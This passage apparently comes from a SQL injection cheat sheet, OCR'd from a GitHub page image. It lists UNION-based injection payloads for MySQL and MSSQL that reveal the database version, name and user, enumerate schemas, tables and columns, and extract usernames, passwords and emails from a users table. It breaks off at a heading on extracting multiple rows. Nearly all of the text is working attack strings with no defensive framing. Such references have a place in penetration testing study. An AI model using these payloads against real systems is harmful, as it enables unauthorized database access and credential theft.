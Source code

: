 #### Phase 3: Information Gathering
```sql
-- Database version (place in visible column)
' UNION SELECT null, @@version, null, null-- //

-- Current database name
' UNION SELECT null, database(), null, null-- //

-- Current user
' UNION SELECT null, user(), null, null-- //

-- Combined information extraction
' UNION SELECT null, database(), user(), @@version-- //
```

---

### Advanced UNION Payloads

#### Database Enumeration
```sql
-- List all databases (MySQL)
' UNION SELECT null, schema_name, null, null FROM information_schema.schemata-- //

-- List all databases (MSSQL)
' UNION SELECT null, name, null, null FROM sys.databases-- //

-- List tables in current database
' UNION SELECT null, table_name, null, null FROM information_schema.tables WHERE table_schema=database()-- //

-- List tables in specific database
' UNION SELECT null, table_name, null, null FROM information_schema.tables WHERE table_schema='target_db'-- //
```

#### Table Structure Analysis
```sql
-- Get columns for specific table
' UNION SELECT null, column_name, data_type, null FROM information_schema.columns WHERE table_name='users'-- //

-- Get table and column information together
' UNION SELECT null, table_name, column_name, table_schema FROM information_schema.columns WHERE table_schema=database()-- //

-- Count rows in table
' UNION SELECT null, COUNT(*), null, null FROM users-- //
```

#### Data Extraction Techniques
```sql
-- Extract user data
' UNION SELECT null, username, password, email FROM users-- //

-- Extract specific user
' UNION SELECT null, username, password, null FROM users WHERE username='admin'-- //

-- Extract with concatenation (MySQL)
' UNION SELECT null, CONCAT(username,':',password), null, null FROM users-- //

-- Extract with concatenation (MSSQL)  
' UNION SELECT null, username + ':' + password, null, null FROM users-- //

-- Extract multiple rows (limit results)
```